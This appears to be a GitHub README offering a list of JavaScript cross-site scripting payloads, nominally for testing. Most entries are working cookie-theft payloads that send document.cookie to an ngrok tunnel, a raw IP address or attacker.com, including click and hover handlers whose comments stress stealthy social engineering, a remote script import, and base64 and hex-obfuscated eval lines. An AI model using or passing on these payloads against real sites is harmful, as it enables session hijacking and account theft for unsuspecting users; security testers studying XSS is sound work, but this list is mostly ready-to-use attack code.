 # This repository contains some useful javascript payloads that can be injected to test for XSS vulnerabilities.
#Make sure you encode this payloads and vice versa, depending on how the system handles the payloads
```bash
document.location = 'http://4.tcp.ngrok.io:10402/steal?cookie=' + encodeURIComponent(document.cookie);

new Image().src = 'http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie);

fetch('http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie));

<a href="#" onclick="new Image().src='http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie)">Click me</a>
#When the user clicks the link, it silently sends the cookie to your server using an 
#image request.

<a href="#" onmouseover="new Image().src='http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie)">Hover here</a>
#Sends the cookie just by hovering — useful for stealthy social engineering.

<img src=0 onerror="alert('XSS')">

<img src=1 onerror=fetch('http://3.224.73.92/steal?c=' + encodeURIComponent(document.cookie));

<img src=1 onerror="import('//attacker.com/x.js')"> # Loads javascript from a remote server

"/><script>import('//localserver/xss.js')</script>

eval(atob("YWxlcnQoMSk=")) # // → runs alert(1) (BASE64)

<img src=1 onerror="eval('\x61\x6c\x65\x72\x74(1)')">

eval("\x61\x6c\x65\x72\x74(1)");  #// Hex for "alert(1)" # OCTAL


```bash
